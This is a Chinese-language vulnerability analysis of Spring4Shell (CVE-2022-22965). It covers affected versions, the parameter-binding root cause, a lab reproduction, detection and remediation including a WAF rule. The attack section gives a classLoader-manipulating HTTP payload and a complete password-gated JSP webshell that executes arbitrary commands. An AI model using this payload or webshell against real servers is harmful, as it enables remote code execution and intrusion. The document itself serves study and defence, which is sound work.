 
## 一、漏洞概况
### 基本信息
- **CVE编号**：CVE-2022-22965
- **披露时间**：2022年3月31日
- **官方通告**：[Spring Framework RCE Early Announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)

### 影响范围
| 组件              | 受影响版本                | 安全版本                  |
|-------------------|--------------------------|--------------------------|
| Spring Framework  | <5.3.18, <5.2.20         | ≥5.3.18, ≥5.2.20         |
| JDK               | ≥9                       | <9                       |
| Tomcat            | 部分版本需组合验证        | 见测试结果表              |

### Tomcat版本测试结果
| JDK版本            | Tomcat版本           | 结果                 |
|--------------------|---------------------|----------------------|
| jdk8u322-b06      | apache-tomcat-8.5.77 | 安全                 |
| jdk-9.0.4+11      | apache-tomcat-9.0.60 | 存在漏洞             |
| jdk-11.0.14.1+1   | apache-tomcat-8.5.78 | 安全（日志报错）     |
![[Pasted image 20250212023811.png]]
---

## 二、技术原理
### Spring参数绑定机制
通过URL参数自动绑定对象属性：
```java
// 示例请求
http://localhost:8083/addUser?name=wuya&department.name=sec

// 自动生成对象
User{name="wuya", department=Department{name="sec"}}
```

### 多级参数绑定
```python
contry.province.city.district=yuelu
```
调用链路：
1. `Contry.getProvince()`
2. `Province.getCity()`
3. `City.setDistrict()`

### 关键组件
- **BeanWrapperImpl**：Spring属性操作核心类
- **AccessLogValve**：Tomcat访问日志配置对象

---

## 三、漏洞复现
### 环境要求
| 组件         | 版本              |
|-------------|-------------------|
| 操作系统     | Windows          |
| JDK          | 11.0.11          |
| Tomcat       | 9.0.60           |
| Spring Boot  | 2.6.3（禁用内置Tomcat） |

### 部署流程
4. 将`ROOT.war`部署至`tomcat/webapps`目录
5. 配置Tomcat服务端参数：
   ```xml
   <!-- server.xml 配置示例 -->
   <Valve className="org.apache.catalina.valves.AccessLogValve"
          directory="logs"
          prefix="localhost_access_log"
          suffix=".txt"
          pattern="%h %l %u %t "%r" %s %b" />
   ```

### 漏洞利用脚本
```bash
python exploit.py --url http://localhost:7299/addUser
```

---

## 四、攻击原理
### HTTP Payload解析
```http
POST /addUser HTTP/1.1
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di...
```
关键参数说明：
- `pattern`：写入JSP木马的日志格式模板
- `suffix`：文件后缀设置为`.jsp`
- `directory`：木马存放路径为`webapps/ROOT`

### JSP木马代码
```jsp
<% 
if("j".equals(request.getParameter("pwd")){ 
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1; 
    byte[] b = new byte[2048]; 
    while((a=in.read(b))!=-1){ 
        out.println(new String(b)); 
    } 
} 
%>
```

---

## 五、漏洞排查
### 检测步骤
6. **组件检查**：
   - Spring Framework版本是否低于受影响版本
   - JDK版本是否≥9
   - Tomcat版本是否在受影响组合中

7. **流量特征**：
   - 包含`class.module.classLoader`的异常请求参数
   - 日志中出现非常规的`.jsp`文件生成记录

8. **日志分析**：
   ```bash
   grep -r "AccessLogValve" /tomcat/logs/catalina.*
   ```

---

## 六、修复方案
### 立即措施
9. **升级Spring框架**：
   ```xml
   <!-- Maven配置示例 -->
   <dependency>
       <groupId>org.springframework</groupId>
       <artifactId>spring-core</artifactId>
       <version>5.3.18</version>
   </dependency>
   ```

10. **Tomcat加固**：
   - 升级至Tomcat 8.5.78/9.0.62或更高版本
   - 禁用`AccessLogValve`的动态配置功能

11. **WAF规则**：
   ```nginx
   # 拦截包含class.module关键字的请求
   if ($args ~* "class\.module\.classLoader") {
       return 403;
   }
   ```

### 长期防护
- 启用RASP（运行时应用自我保护）
- 定期进行组件漏洞扫描

